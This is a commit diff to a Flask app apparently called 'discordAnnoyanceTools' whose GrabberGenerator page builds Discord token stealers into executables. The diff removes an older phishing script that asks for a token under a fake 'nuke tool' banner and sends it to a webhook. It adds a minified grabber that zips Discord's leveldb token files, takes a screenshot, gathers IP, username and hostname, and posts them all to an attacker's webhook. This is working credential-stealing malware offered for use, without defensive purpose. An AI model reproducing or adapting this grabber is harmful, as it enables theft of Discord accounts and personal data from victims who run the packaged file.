

Before and after one commit to stsaria/discordAnnoyanceTools, a Flask app: page /grabberGenerator in a window 1280 px wide. Shown: the top 847 px of the page, without its empty margins (0-679 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
upgrade grabber

````diff
--- a/requirements.txt
+++ b/requirements.txt
@@ -1,2 +1,4 @@
 discord == 2.3.2
 cx_Freeze
+requests
+py7zr
--- a/src/endpoints.py
+++ b/src/endpoints.py
@@ -1,4 +1,4 @@
-import subprocess, threading, traceback, shutil, asyncio, string, random, time, sys, os
+import subprocess, threading, traceback, shutil, string, random, py7zr, sys, os
 import discordWebhook, discordBot
 from flask import Flask, request, redirect, render_template
 
@@ -105,12 +105,12 @@ def grabberGenerator():
 
             subprocess.run("pip install "+" ".join(libraries), shell=True)
             subprocess.run(f"{sys.executable} temp/{randomStr}-setup.py build", shell=True)
-            shutil.make_archive('nuker', 'zip', root_dir='temp/nuker')
-            response = discord.sendFile("nuker.zip")
+            with py7zr.SevenZipFile("nuker.7z", 'w', filters=[{'id': py7zr.FILTER_LZMA2, 'preset': 9}]) as archive:
+                archive.writeall("./temp/nuker/", arcname='')
+            response = discord.sendFile("nuker.7z")
             shutil.rmtree('temp')
-            os.remove("nuker.zip")
-
-            if response.status_code == 204:
+            os.remove("nuker.7z")
+            if str(response.status_code)[0] == "2":
                 return render_template('grabberGenerator.html', success="成功しました")
             else:
                 return render_template('grabberGenerator.html', error="ファイル送信中にエラーが発生しました")
--- a/src/templates/botNuke.html
+++ b/src/templates/botNuke.html
@@ -24,7 +24,7 @@
                     </div>
                 </div>
                 <div class="mb-2">
-                    <label for="guildId">Guild ID</label>
+                    <label for="guildId">サーバーID</label>
                     <input type="text" class="form-control" id="guildId" name="guildId" required>
                 </div>
                 <div class="mb-2">
--- a/src/templates/grabberGenerator.html
+++ b/src/templates/grabberGenerator.html
@@ -23,20 +23,38 @@
                 </div>
                 <div class="mb-2">
                     <label for="libraries">使用ライブラリリスト（カンマ区切り）</label>
-                    <input type="text" class="form-control" id="libraries" name="libraries" value="requests" required>
+                    <input type="text" class="form-control" id="libraries" name="libraries" value="requests,pyautogui" required>
                 </div>
                 <div class="mb-2">
-                    <label for="script">Pythonスクリプト（変更は開発者向け）（Webhookの変数はWEBHOOK_URLです、定義はこのコードの前に来ます）:</label>
-                    <textarea class="form-control" id="script" name="script" rows="20">import requests, getpass, sys
-print("= DISCORD NUKE TOOL =")
-token = input("Please Type Token: ")
-if len(token) >= 100:
-    sys.exit(1)
-print("Start..")
-ip = requests.get('https://ifconfig.me').text
-useUser = getpass.getuser()
-requests.post(WEBHOOK_URL, json={"content": f"Token:{token}\nIP:{ip}\nUser:{useUser}"})
-print("failed...")</textarea>
+                    <label for="script">Pythonスクリプト（変更は開発者向け）（WebhookURLの定数はWEBHOOK_URLです、定義はこのコードの前に来ます）:</label>
+                    <textarea class="form-control" id="script" name="script" rows="20">B='Pman.zip'
+import pyautogui as J,requests as D,zipfile as G,getpass as K,re,io,os as A
+from socket import gethostname as L
+def M(directory):
+    C=directory;zip=G.ZipFile(B,'a')
+    for D in A.listdir(C):
+        if D.endswith(('.log','.ldb')):
+            F=A.path.join(C,D)
+            zip.write(F)
+def C():
+    H='file';print('Start..');N=D.get('https://ifconfig.me').text;O=K.getuser();P=L();Q=J.screenshot();F=A.getenv('APPDATA')
+    if F:
+        G=A.path.join(F,'Discord','Local Storage','leveldb')
+        if A.path.exists(G):M(G)
+    R=f"""# Pman Grabber
+```
+IP:{N}
+
+User:{O}
+
+HostName:{P}
+```
+"""
+    with io.BytesIO()as C:
+        Q.save(C,format='PNG');C.seek(0)
+        with open(B,'rb')as S:T=S.read()
+        D.post(WEBHOOK_URL,data={'content':R},files={H:('screenShot.png',C,'image/png'),H:(B,T)});A.remove(B)
+if __name__=='__main__':C()</textarea>
                 </div>
                 <button type="submit" id="submit" class="btn btn-primary">
                     <span class="spinner-border spinner-border-sm d-none" role="status" aria-hidden="true"></span>
@@ -46,7 +64,7 @@ print("failed...")</textarea>
         </div>
     </div>
     <script>
-        document.getElementById('sendForm').addEventListener('submit', function(event) {
+        document.getElementById('form').addEventListener('submit', function(event) {
             var webhookUrlInput = document.getElementById("webhookUrl");
             var librariesInput = document.getElementById("libraries");
             var scriptInput = document.getElementById("script");
--- a/src/templates/index.html
+++ b/src/templates/index.html
@@ -11,7 +11,7 @@
     <ul>
         <li><a href="/botNuke">BotNuke</a></li>
         <li><a href="/webhookNuke">WebhookNuke</a></li>
-        <li><a href="/grabber">GrabberGenerator</a></li>
+        <li><a href="/grabberGenerator">GrabberGenerator</a></li>
     </ul>
     <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/js/bootstrap.bundle.min.js" integrity="sha384-geWF76RCwLtnZ8qwWowPQNguL3RmwHVBC9FhGdlKrxdiJJigb/j/68SIy3Te4Bkz" crossorigin="anonymous"></script>
 </body>
````
Also changed, not shown: 1 other file.
